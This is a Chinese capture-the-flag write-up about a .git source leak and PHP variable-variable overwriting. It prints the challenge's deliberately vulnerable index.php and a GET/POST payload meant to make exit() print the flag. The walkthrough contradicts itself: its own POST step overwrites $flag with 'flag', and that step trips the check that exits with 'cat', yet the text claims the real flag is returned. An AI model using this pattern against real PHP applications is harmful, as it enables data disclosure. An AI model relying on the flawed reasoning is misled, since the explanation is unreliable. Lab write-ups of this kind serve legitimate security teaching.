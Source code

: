 知识点：

1. .git源码泄露

2. $$变量覆盖



# 1.扫描发现存在.git源码泄露

index.php

```javascript
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';


foreach($_POST as $x => $y){
    $$x = $y;
//    $flag=fla
}

foreach($_GET as $x => $y){
    $$x = $$y;
//    $flag=$fla
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}



//上面的代码不退出则输出flag
echo "the flag is: ".$flag;
```



flag.php

```javascript
<?php

$flag = file_get_contents('/flag');
```



# 2. 发现index.php存在变量覆盖

我们需要绕过，前面的exit限制



## 注意：



## 这个题，最后一句echo输出不了flag，我们只能利用exit()终止时抛出flag.

## 所以我们的目的是：

## 将$yds.$is,$handsome中的一个覆盖，并通过exit()抛出



# 3.paylaod

```javascript
GET:yds=flag
POST:flag=flag
```



## 3.1 首先我们post：$flag=flag

```javascript
foreach($_POST as $x => $y){  //$x=$flag,$y=flag
    $$x = $y;                 //$flag=flag
}
```

这样就变成了$$flag = flag。$$x表示$$flag，被$y赋值后为flag



## 3.2 接下来GET：?yds=flag

```javascript
foreach($_GET as $x => $y){  //$x=yds,$y=flag
    $$x = $$y;              //$yds=$flag 
}
```



$flag就是真正的flag{XXXXXX}。

$$x = $$y，也就是$yds=flag{XXXXXX}。



## 3.3 此时没有_GET[flag]不满足，抛出$yds=$flag

```javascript
if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}
```



所以会输出flag。总的来说还是挺绕的。。



